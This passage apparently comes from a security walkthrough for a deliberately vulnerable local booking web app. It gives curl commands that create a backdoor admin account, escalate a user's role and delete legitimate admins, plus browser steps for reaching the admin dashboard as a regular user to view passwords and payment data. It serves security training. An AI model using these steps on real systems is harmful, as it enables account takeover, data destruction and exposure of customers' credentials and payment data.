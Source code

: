 ```bash
  }
]
```

#### Step 5: User Management Exploitation (NEW!)
```bash
# Create new admin users with elevated privileges
curl -X POST http://localhost:3000/api/admin/users \
  -H "Content-Type: application/json" \
  -b cookies.txt \
  -d '{
    "fullName": "Malicious Admin",
    "email": "hacker@evil.com",
    "password": "backdoor123",
    "role": "admin",
    "phone": "+1-555-9999"
  }'

# Response: User created successfully with admin privileges!
{
  "message": "User created successfully",
  "user": {
    "id": "new_user_id",
    "fullName": "Malicious Admin",
    "email": "hacker@evil.com",
    "role": "admin"
  }
}

# Escalate existing user to admin role
curl -X PUT http://localhost:3000/api/admin/users/[USER_ID]/role \
  -H "Content-Type: application/json" \
  -b cookies.txt \
  -d '{"role": "admin"}'

# Delete legitimate admin users (except yourself)
curl -X DELETE http://localhost:3000/api/admin/users/[ADMIN_USER_ID] \
  -b cookies.txt

# Response: User and associated bookings deleted successfully
```

### Scenario 2: Interactive Browser-Based Attack

#### Step 1: Login via Web Interface
1. Navigate to `http://localhost:3000`
2. Click "Login" in the navigation
3. Enter credentials: `user@gmail.com / password`
4. Click "Sign In"

#### Step 2: Exploit Admin Access via URL Manipulation
1. After successful login, manually navigate to `http://localhost:3000/admin`
2. Observe full admin dashboard access despite being a regular user
3. Click on "All Users" tab to see all user accounts with passwords
4. Click on "All Bookings" tab to see customer payment data
